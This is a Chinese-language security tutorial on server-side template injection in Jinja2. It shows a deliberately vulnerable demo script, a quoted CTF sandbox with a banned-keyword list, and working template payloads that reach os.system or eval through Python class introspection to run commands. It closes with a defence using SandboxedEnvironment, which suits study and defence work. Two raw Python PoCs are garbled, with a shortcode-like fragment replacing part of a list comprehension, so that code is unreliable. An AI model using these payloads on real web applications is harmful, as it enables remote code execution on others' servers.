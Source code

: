 # 利用 Python 特性在 Jinja2 模板中执行任意代码

0x00 简介
=======

* * *

本文源于老外[@nvisium](https://twitter.com/nvisium)在其博客发表的博文[《Injecting Flask》](https://nvisium.com/blog/2015/12/07/injecting-flask/)，在原文中作者讲解了 Python 模板引擎[Jinja2](http://jinja.pocoo.org/)在服务端模板注入 (SSTI) 中的具体利用方法，在能够控制模板内容时利用环境变量中已注册的用户自定义函数进行恶意调用或利用渲染进行 XSS 等。

对于 Jinja2 模板引擎是否能够在 SSTI 的情况下直接执行命令原文并没有做出说明，并且在 Jinja2 官方文档中也有说明，模板中并不能够直接执行任意 Python 代码，这样看来在 Jinja2 中直接控制模板内容来执行 Python 代码或者命令似乎不太可能。

0x01 模板中复杂的代码执行方式
=================

* * *

最近在进行项目开发时无意中注意到 Jinja2 模板中可以访问一些 Python 内置变量，如`[]``{}`等，并且能够使用 Python 变量类型中的一些函数，示例代码一如下：

```
# coding: utf-8
import sys
from jinja2 import Template

template = Template("Your input: {}".format(sys.argv[1] if len(sys.argv) > 1 else '<empty>'))
print template.render()

```

为了方便演示，这里直接将命令参数输入拼接为模板内容的一部分并进行渲染输出，这里我们直接输入`{{ 'abcd' }}`使模板直接渲染字符串变量：

![](http://drops.javaweb.org/uploads/images/189b9c98f3a7574af4185dc9128e150e3b21deed.jpg)

当然上面说了可以在模板中直接调用变量实例的函数，如字符串变量中的`upper()`函数将其字符串转换为全大写形式：

![](http://drops.javaweb.org/uploads/images/f84ff357dbde48900671426c281c9154f7855c1e.jpg)

那么如何在 Jinja2 的模板中执行 Python 代码呢？如官方的说法是需要在模板环境中注册函数才能在模板中进行调用，例如想要在模板中直接调用内置模块`os`，即需要在模板环境中对其注册，示例代码二如下：

```
# coding: utf-8
import os
import sys
from jinja2 import Template

template = Template("Your input: {}".format(sys.argv[1] if len(sys.argv) > 1 else '<empty>'))
template.globals['os'] = os

print template.render()

```

执行代码，并传入参数`{{ os.popen('echo Hello RCE').read() }}`，因为在模板环境中已经注册了`os`变量为 Python`os`模块，所以可以直接调用模块函数来执行系统命令，这里执行额系统命令为`echo Hello Command Exection`：

![](http://drops.javaweb.org/uploads/images/e1aff19ac21be11e7d05daa76b908223fa675d2a.jpg)

如果使用示例代码一来执行，会得到`os`未定义的异常错误：

![](http://drops.javaweb.org/uploads/images/7cdc456d00f6f1930266a2d0e1035c23b3a3511d.jpg)

0x02 利用 Python 特性直接执行任意代码
=========================

* * *

那么，如何在未注册`os`模块的情况下在模板中调用`popen()`函数执行系统命令呢？前面已经说了，在 Jinja2 中模板能够访问 Python 中的内置变量并且可以调用对应变量类型下的方法，这一特点让我联想到了常见的 Python 沙盒环境逃逸方法，如 2014CSAW-CTF 中的一道 Python 沙盒绕过题目，环境代码如下：

```
#!/usr/bin/env python 
from __future__ import print_function

print("Welcome to my Python sandbox! Enter commands below!")

banned = [  
    "import",
    "exec",
    "eval",
    "pickle",
    "os",
    "subprocess",
    "kevin sucks",
    "input",
    "banned",
    "cry sum more",
    "sys"
]

targets = __builtins__.__dict__.keys()  
targets.remove('raw_input')  
targets.remove('print')  
for x in targets:  
    del __builtins__.__dict__[x]

while 1:  
    print(">>>", end=' ')
    data = raw_input()

    for no in banned:
        if no.lower() in data.lower():
            print("No bueno")
            break
    else: # this means nobreak
        exec data

```

（利用 Python 特性绕过沙盒限制的详细讲解请参考[Writeup](https://hexplo.it/escaping-the-csawctf-python-sandbox/)），这里给出笔者改进后的 PoC：

```
[c 1="c" 2="in" 3="[" language="for"][/c].__class__.__base__.__subclasses__() if c.__name__ == 'catch_warnings'][0].__init__.func_globals['linecache'].__dict__['o'+'s'].__dict__['sy'+'stem']('echo Hello SandBox')

```

![](http://drops.javaweb.org/uploads/images/2bf5149aff34597eec7d75b54f6dc68f6d778d5d.jpg)

当然通过这种方式不仅仅能够通过`os`模块来执行系统命令，还能进行文件读写等操作，具体的代码请自行构造。

回到如何在 Jinja2 模板中直接执行代码的问题上，因为模板中能够访问 Python 内置的变量和变量方法，并且还能通过 Jinja2 的模板语法去遍历变量，因此可以构造出如下模板 Payload 来达到和上面 PoC 一样的效果：

```
{% for c in [].__class__.__base__.__subclasses__() %}
{% if c.__name__ == 'catch_warnings' %}
{{ c.__init__.func_globals['linecache'].__dict__['os'].system('id') }}
{% endif %}
{% endfor %}

```

使用该 Payload 作为示例代码二的执行参数，最终会执行系统命令`id`：

![](http://drops.javaweb.org/uploads/images/0053a807c5205d989642abbb63b591838ded7910.jpg)

当然除了遍历找到`os`模块外，还能直接找回`eval`函数并进行调用，这样就能够调用复杂的 Python 代码。

原始的 Python PoC 代码如下：

```
[a for a in [b for b in [c 1="c" 2="in" 3="[" language="for"][/c].__class__.__base__.__subclasses__() if c.__name__ == 'catch_warnings'][0].__init__.func_globals.values() if type(b) == dict] if 'eval' in a.keys()][0]['eval']('__import__("os").popen("whoami").read()')

```

在 Jinja2 中模板 Payload 如下：

```
{% for c in [].__class__.__base__.__subclasses__() %}
{% if c.__name__ == 'catch_warnings' %}
  {% for b in c.__init__.func_globals.values() %}
  {% if b.__class__ == {}.__class__ %}
    {% if 'eval' in b.keys() %}
      {{ b['eval']('__import__("os").popen("id").read()') }}
    {% endif %}
  {% endif %}
  {% endfor %}
{% endif %}
{% endfor %}

```

使用该 Payload 作为示例代码二的执行参数（注意引号转义），成功执行会使用`eval()`函数动态载入`os`模块并执行命令：

![](http://drops.javaweb.org/uploads/images/0623ba104a4dcb0856bebf5758c42ade09109a7b.jpg)

0x03 利用途径和防御方法
==============

* * *

SSTI（服务端模板注入）。通过 SSTI 控制 Web 应用渲染模板（基于 Jinja2）内容，可以轻易的进行远程代码（命令）执行。当然了，一切的前提都是模板内容可控，虽然这种场景并不常见，但难免会有程序员疏忽会有特殊的需求会让用户控制模板的一些内容。

在 Jinja2 模板中防止利用 Python 特性执行任意代码，可以使用 Jinja2 自带的沙盒环境`jinja2.sandbox.SandboxedEnvironment`，Jinja2 默认沙盒环境在解析模板内容时会检查所操作的变量属性，对于未注册的变量属性访问都会抛出错误。

![](http://drops.javaweb.org/uploads/images/e959fbd269e90501a416357afa2da773583c33de.jpg)

0x04 参考
=======

* * *

*   [https://www.blackhat.com/docs/us-15/materials/us-15-Kettle-Server-Side-Template-Injection-RCE-For-The-Modern-Web-App-wp.pdf](https://www.blackhat.com/docs/us-15/materials/us-15-Kettle-Server-Side-Template-Injection-RCE-For-The-Modern-Web-App-wp.pdf)
*   [https://nvisium.com/blog/2015/12/07/injecting-flask/](https://nvisium.com/blog/2015/12/07/injecting-flask/)
*   [https://hexplo.it/escaping-the-csawctf-python-sandbox/](https://hexplo.it/escaping-the-csawctf-python-sandbox/)